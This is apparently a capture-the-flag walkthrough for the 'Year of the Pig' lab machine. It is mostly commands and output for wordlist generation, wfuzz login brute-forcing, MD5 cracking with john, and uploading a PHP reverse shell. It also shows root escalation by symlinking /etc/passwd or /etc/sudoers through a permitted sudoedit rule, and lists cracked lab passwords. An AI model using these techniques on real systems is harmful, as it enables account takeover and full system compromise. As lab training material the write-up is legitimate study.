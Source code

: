 ### YearOfThePig


# portscan
```
22
80
```

name: marco, taylor

```admin login hint

Remember that passwords should be a memorable word, followed by two numbers and a special character

```

# Create custom list

Create list with words "words.txt"
create list with caracteres special

>>for i in {10..99};do while read line;do echo $line$i;done < words.txt;done > words_num.txt
> while read line;do while read char;do echo $line$char;done < carac; done < words_num.txt > Final_wordlist.txt


with burp capture request

{"username":"marco","password":"1a1dc91c907325c69271ddf0c944bc72"}

password md5 encoded

>python3 md5hash.py Final_wordlist.txt final_hash.txt

>wfuzz -w final_hash.txt -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.200.52/api/login --hw 4

> john hash --wordlist=Final_wordlist.txt --format=Raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
# savoia21!        (?)


## {marco:savoia21!}

# connect SSH

> ssh marco@{ip}

##### Privilege escalation
```
-rw-------  1 www-data www-data       24576 Dec  8 07:12 admin.db

/etc/group
web-developers:x:1002:www-data,marco

Marco can add files in /var/www/html/ lets upload php_reverse_shell

gain www-data shell 

access sqlite3 admin.db - found 

select * from users;
58a2f366b1fd51e127a47da03afc9995|marco|ea22b622ba9b3c41b22785dcb40211ac
f64ccfff6f64d57b121a85f9385cf256|curtis|a80bfe309ecaafcea1ea6cb3677971f2

use john to crack hash

{curtis:Donald1983$}

sudo -l
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php


we can create file 'config.php' with marco credential (web-developer)

use ln for link /etc/passwd

>ln -s /etc/passwd /var/www/html/*/*/config.php
> sudoedit /var/www/html/*/*/config.php

kali@machine> # openssl passwd -6 -salt nothing password

> sudoedit /var/www/html/*/*/config.php
hacker:$6$nothing$creXYt9aVGarMfNqn4XmctIp9BAzDfbCj9CUFelbTb0WiugUlxgVFBmzWzqpYjdVd7duTrAf5RsQhQe1kqo4H0:0:0::root:/bin/bash

> su hacker

root@year-of-the-pig:/#

====================================================================================================
```
## Another metod priv escalation
```
> ln -s /etc/sudoers /var/www/html/*/*/config.php
>sudoedit /var/www/html/*/*/config.php

Edit user privilege

curtis ALL=(ALL) ALL

>sudo su

root@year-of-the-pig:/# 
```



====================================================================================================
#### Another metod to create list 

>cewl http://10.10.197.153/ > cewl_list

>john -w=cewl_list --rules --stdout > cwel_uplist.txt

with hint.. add rule john
:$[0-9]$[0-9]$[!@#$%?.,&]

>john -w=cwel_uplist.txt --rules --stdout > cewl_listnum.txt
